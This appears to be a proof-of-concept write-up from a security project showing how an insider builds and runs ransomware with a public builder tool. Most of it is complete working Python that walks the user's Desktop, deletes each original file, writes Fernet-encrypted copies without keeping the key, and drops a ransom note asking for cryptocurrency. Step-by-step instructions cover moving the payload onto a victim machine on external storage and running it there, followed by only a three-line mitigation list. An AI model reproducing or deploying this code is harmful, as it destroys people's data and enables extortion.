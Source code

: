 # POC 5 - Ransomware to Destroy Files

## Description

Ransomware is a form of malware which is designed to encrypt files within a device and rendering files and systems to be useless. After the files are encrypted, threat actors usually demand a ransom in exchange for the key to decrypt the files within the system.

While some Organisations pay the threat actor for the key, it is not a guarantee that the threat actor will honour their words and provide the correct decryption key. This will result in Organisations losing their reputation, money and files from the attack. 

This attack aims to outline the threats posed to the organisation from a Ransomware attack. 

## Steps to Carry Out Exploitation

There are a total of 2 steps to be caried out during the process of conducting a reverse shell attack.

The following are the 2 steps taken during the POC.

1. [Preparation Phase](#preparations)
2. [Exploitation Phase](#exploitation)

The preparation phase covers all preperatory needs inclusive of the installation of tools that can possibly prepared by the threat attacker. 

The exploitation phase outlines the steps that the insider can possibly take to both remain undetected within the machine along with achieving the targeted goal of the insider threat attacker.

### Preparations

1. Clone the Ac0ddRansom repository

```py
git clone https://github.com/Hex1629/Ac0ddRansom.git
```

2. Navigate into the repository and execute the file

```
# Navigate into the repository
cd Ac0ddRansom

# Command to execute the script to create the payload
python ransomware_builder.py
```

![Creating a Ransomware Payload](/images/POC_5/Preparation/POC5_Ransomware_Builder.png)

3. Type in the following values at the various prompts and after the ransomware will be built

|Prompt|Value|
|--|--|
|Path|2|
|Path|Desktop|
|File Extension|[Input_File_Extension]|
|Encryption|Fernet|
|File Ransomware Delete|N|
|Note|NOTICE|
|Note_Data|N|
|Ransomware Name|[Input_Ransomware_Name]|
|Number|[Input_Ransomware_Number]|
|Crypto Type|[Input_Crypto_Type]|
|Address|[Input_Crypto_Currency_Wallet_Number]|
|Address Contact|[Input_Contact_Number]|
|Setup|2|
|Name|[Input_Your_Name]|
|Ransomware Files Name|[Input_Ransomware_Name]|

![Ransomware Build Status](/images/POC_5/Preparation/POC5_Ransomware_Build_Status.png)

4. The code should look something like this

```py
import os
import base64
from cryptography.fernet import Fernet

print('Ransomware Runing (No Remove!) ')

# Scan Files
def scan(path):
    allFiles = []
    for home, sub_files, file_list_s in os.walk(path):
        for name_files in file_list_s:
            if '[Input_File_Extension]' in name_files:
                continue
            allFiles.append(os.path.join(home, name_files))
    return allFiles

#Path Files
path_files = os.path.expanduser('~') + '/Desktop'

key_fernet_start = Fernet.generate_key()

#Encryption
num = 0
openFiles = scan(path_files)
for file_os in openFiles:
     #Read Files
     files = open(file_os, "rb")
     Data_Text = files.read()
     files.close()

     #Files Remove 
     os.remove(file_os)
     
     # Fernet
     fernet_start = Fernet(key_fernet_start)
     encodedBytes = fernet_start.encrypt(Data_Text)
     encodedStr = str(encodedBytes,"utf-8")
     
     # Write Files
     output = os.path.join(os.path.dirname(file_os), os.path.basename(file_os) + '[Input_File_Extension]')
     files2 = open(output, "w")
     files2.write(encodedStr)
     num += 1

# Note
num2 = 0
for dirName, subdirList, fileList in os.walk(path_files):
    OutputFile = os.path.join(os.path.join(dirName),f"NOTICE.txt")
    file = open(OutputFile,'w')
    file.write('''Attention maybe you have been infected by [Input_Ransomware_Name]!

All your file have been overwrite by Encryption Fernet

Don't worry, you can return all your files!

The only method of recovering files is to purchase decrypt tool and unique key for you.
This software will decrypt all your encrypted files.
To get this software you need write on our e-mail below

What guarantees do we give to you?
Its just a business. We absolutely do not care about you and your deals, except getting benefits.

Ransomware Make By [Input_Your_Name]

<--------- Rule
DONT try to change files by yourself, DONT use any third party software for restoring your data.
Do not rename encrypted files.

Contact us:[Input_Contact_Number]

Send $1 worth of [Input_Crypto_Type] to this Address:
[Input_Crypto_Currency_Wallet_Number]

Logs Ransomware --------------->
Personal Ransomware ID: emhevrHXUgxGDsadZThnCSDPFMT2M01ULP46Wv9n4hoGwHREOJZ2Jzi8z_86437627344
<--------------- Logs Ransomware
''')
    file.close()
    num2 += 1

print("Ransomware Done Runing!!!!!!")
```

4. Copy this file into an external storage for exploitation

### Exploitation

1. Install Python from the following site within the organisations system

```
https://www.python.org/downloads/release/python-3100/
```

2. Run the installer as Administrator and add python to path

3. Copy the file over from the external storage device into the machine

![Ransomware file in system](/images/POC_5/Exploitation/POC5_Ransomware_in_Victim_Machine.png)

4. Open Command Prompt and execute the following command

```cmd
python [Input_Ransomware_Name]
```

![Executing Built Ransomware in Victims Machine](/images/POC_5/Exploitation/POC5_Executing_Ransomware_in_Victim_Machine.png)

5. Notice that the files within the directory stated is encrypted and the ransomware note appears

![Ransomware Note](/images/POC_5/Exploitation/POC5_Ransomware_Note.png)

## Possible Mitigations and Recommendations

1. Perform Backup Regularly and Restore Offline Backup
2. Crisis Management Plan
3. Update antivirus signature database

## References

[Ac0ddRansom](https://github.com/Hex1629/Ac0ddRansom)
[What is Ransomware](https://www.cisa.gov/stopransomware/resources)  
[Converting Python File to exe File](https://www.geeksforgeeks.org/convert-python-script-to-exe-file/)    

### Similar Repositories performing Ransomware
[Malware with Python](https://github.com/amiroooamiran/Malware-with-python)  
[MineHackingTools](https://github.com/MinegamesAdministrationTool-zz/MineHackingTools)
